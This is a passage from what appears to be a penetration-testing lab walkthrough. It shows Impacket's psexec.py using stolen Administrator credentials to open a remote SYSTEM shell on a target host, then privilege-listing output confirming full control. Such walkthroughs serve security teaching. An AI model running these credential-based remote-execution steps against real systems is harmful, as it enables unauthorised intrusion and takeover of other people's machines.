 `psexec.py 'Administrator:Str0ng_Password_123321'@10.4.24.251`:
```
Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.4.24.251.....
[*] Found writable share ADMIN$
[*] Uploading file mypFcHIo.exe
[*] Opening SVCManager on 10.4.24.251.....
[*] Creating service ruRo on 10.4.24.251.....
[*] Starting service ruRo.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1457]
(c) 2018 Microsoft Corporation. All rights reserved.
```

**Explanation:** PsExec is a tool that allows the execution of processes on remote systems. Here, it uses the stolen Administrator credentials to open a remote shell on the target machine with elevated privileges.

<span style="color: #64b5f6;">**Target (victim) machine**</span>.

_Verify that the attacker has successfully escalated privileges to the SYSTEM account._

`whoami`:
```
nt authority\system ←
```

_List the privileges available to the SYSTEM account to confirm full control._

`whoami /priv`:
```
PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State   
========================================= ================================================================== ========
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Disabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled 
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeTcbPrivilege                            Act as part of the operating system                                Enabled 
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled 
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled 
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled 
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled 
SeCreatePermanentPrivilege                Create permanent shared objects                                    Enabled 
SeBackupPrivilege                         Back up files and directories                                      Disabled
```